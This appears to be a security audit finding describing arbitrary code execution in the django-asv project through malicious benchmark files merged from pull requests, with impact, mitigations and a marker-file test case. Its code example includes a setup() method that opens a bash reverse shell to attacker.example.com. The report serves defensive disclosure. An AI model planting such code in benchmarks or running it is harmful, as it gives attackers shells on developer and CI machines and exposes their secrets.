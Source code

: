 - **Vulnerability Name:** Arbitrary Code Execution via Malicious Benchmark
- **Description:**
    1. An attacker submits a malicious pull request to the `django-asv` repository.
    2. This pull request includes a crafted benchmark file (e.g., `benchmark.py`) containing malicious Python code within a benchmark class and its methods (like `setup`, `time_*`, `mem_*`).
    3. A Django developer merges the pull request into the repository without thoroughly inspecting the benchmark code for malicious intent.
    4. The benchmarks are executed using the `asv run` command, either manually by a developer or automatically in a CI environment.
    5. `asv` discovers and executes the newly added malicious benchmark code as part of its benchmarking process.
    6. The malicious code is executed with the same privileges as the user running `asv run`, leading to arbitrary code execution on the developer's machine or the CI environment.
- **Impact:**
    Arbitrary code execution on the machine running the benchmarks. This could result in:
    *   **Confidentiality Breach:** Exfiltration of sensitive data from the developer's local machine or the CI environment, such as environment variables, secrets, source code, or other files accessible to the user running the benchmarks.
    *   **Integrity Violation:** Modification or deletion of critical files or configurations on the system.
    *   **Availability Disruption:**  System compromise, potentially leading to denial of service or disruption of development workflows.
    *   **Supply Chain Attack:** If the CI environment is compromised, it could be leveraged to inject malicious code into the Django project itself or its dependencies, leading to a broader supply chain attack.
- **Vulnerability Rank:** Critical
- **Currently Implemented Mitigations:**
    None. The project currently relies solely on the assumption that pull requests will be reviewed for correctness and benign intent, but there are no specific security measures in place to prevent or detect malicious benchmark code execution.
- **Missing Mitigations:**
    *   ** усиленный Code Review with Security Focus:** Implement mandatory, in-depth code reviews for all pull requests, specifically focusing on the security implications of benchmark code. Reviewers should be trained to identify potentially malicious code patterns in benchmark files.
    *   **Sandboxed Benchmark Execution:** Isolate the benchmark execution environment using sandboxing technologies. This could involve:
        *   **Containerization:** Running benchmarks within containers (like Docker) with restricted capabilities and resource limits.
        *   **Virtualization:** Executing benchmarks in virtual machines with minimal necessary tools and network access, offering a stronger isolation layer.
        *   **Restricted User Accounts:** Running benchmarks under dedicated, low-privilege user accounts with limited permissions on the system.
    *   **Static Analysis Security Testing (SAST):** Integrate static analysis tools into the development workflow to automatically scan benchmark code for suspicious patterns or known security vulnerabilities before execution. Tools could be configured to detect potentially dangerous function calls (e.g., `os.system`, `subprocess.call`, `eval`, `exec`) within benchmark files.
    *   **Input Validation and Sanitization (though less applicable to benchmark code itself, but consider benchmark definitions):** If benchmark definitions or parameters are ever sourced from external inputs (which is not apparent in the current project, but as a future consideration), ensure proper validation and sanitization to prevent injection attacks.
    *   **Principle of Least Privilege:** Grant only the necessary permissions to the benchmark execution environment and processes. Avoid running benchmarks with highly privileged accounts.
- **Preconditions:**
    *   **Pull Request Submission:** The attacker must be able to submit a pull request to the `django-asv` repository (which is generally open to contributions).
    *   **Pull Request Merging:** A maintainer or developer with merge privileges must merge the malicious pull request into the main repository. This often relies on human review, which can be bypassed if the malicious code is cleverly disguised or reviewers are not security-minded.
    *   **Benchmark Execution:**  Someone (developer or CI system) must subsequently execute the benchmarks using `asv run` after the malicious code has been merged into the codebase. This is a standard part of the benchmarking workflow, so it's a highly likely precondition to be met.
- **Source Code Analysis:**
    The core vulnerability lies in the way `asv` discovers and executes benchmark code. `asv` is designed to run arbitrary Python code found in `benchmark.py` files within the project. The provided code in `benchmarks/utils.py` using `bench_setup()` further initializes a Django environment, which provides a rich context for potential exploits if the attacker wants to interact with Django's settings, models, or database during benchmark execution.

    The `README.md` explicitly encourages contributions by describing how to write new benchmarks and submit pull requests. This lowers the barrier for attackers to submit malicious benchmarks.

    ```python
    # Example malicious benchmark code that could be placed in a benchmark.py file

    import os
    import subprocess

    class MaliciousBenchmark:
        def setup(self):
            # Example 1: Execute arbitrary shell command
            os.system("whoami > /tmp/whoami_output.txt")

            # Example 2: Reverse shell (simplified, requires attacker to listen on port 4444)
            subprocess.Popen(["/bin/bash", "-c", "bash -i >& /dev/tcp/attacker.example.com/4444 0>&1"])

        def time_benign_benchmark(self): # Name doesn't matter, setup is executed regardless of benchmark function run
            pass
    ```

    The above code, if placed in a `benchmark.py` file within the repository and executed by `asv run`, would execute the commands in the `setup()` method.  `asv` doesn't perform any security checks on the content of these `benchmark.py` files. The `asv run` command simply discovers and executes the Python code.

- **Security Test Case:**
    1. **Setup Test Environment:**  Set up a local development environment for `django-asv` as described in the `README.md`.
    2. **Fork Repository:** Fork the `django-asv` repository on GitHub.
    3. **Create Malicious Benchmark:** In your forked repository, create a new directory, e.g., `benchmarks/exploit_benchmark/`.
    4. **Create `__init__.py`:** Add an empty `__init__.py` file inside `benchmarks/exploit_benchmark/`.
    5. **Create `benchmark.py`:**  Create a `benchmark.py` file inside `benchmarks/exploit_benchmark/` with the following malicious code:

        ```python
        import os

        class ExploitBenchmark:
            def setup(self):
                # Attempt to create a marker file to verify code execution
                try:
                    with open("/tmp/malicious_benchmark_marker.txt", "w") as f:
                        f.write("Malicious benchmark executed!")
                except Exception as e:
                    print(f"Error writing marker file: {e}")

            def time_exploit(self): # time_ function is needed for asv to recognize benchmark, but content is irrelevant for this test
                pass
        ```
    6. **Modify `settings.py`:** Add `'benchmarks.exploit_benchmark'` to the `INSTALLED_APPS` list in `benchmarks/settings.py`. This will ensure the malicious benchmark is included in the project's Django setup.
    7. **Commit and Push:** Commit these changes to your forked repository and push them to GitHub.
    8. **Submit Pull Request (Optional for Local Testing):**  Submit a pull request from your fork to the main `django-asv` repository. For testing purposes, you can skip the pull request and test locally.
    9. **Run Benchmarks Locally:** Clone your forked repository (or the main one if you submitted and merged the PR for testing). Navigate to the repository directory in your terminal. Install `asv` if you haven't already (`pip install asv`). Run the benchmarks: `asv run`.
    10. **Verify Code Execution:** After `asv run` completes, check if the marker file `/tmp/malicious_benchmark_marker.txt` exists and contains the expected content "Malicious benchmark executed!".

        ```bash
        ls -l /tmp/malicious_benchmark_marker.txt
        cat /tmp/malicious_benchmark_marker.txt
        ```

        If the file exists and contains the message, it confirms that the malicious code in the `setup()` method of the benchmark was executed, demonstrating the arbitrary code execution vulnerability. For a less intrusive test, you could modify the malicious benchmark to simply print to standard output instead of writing a file.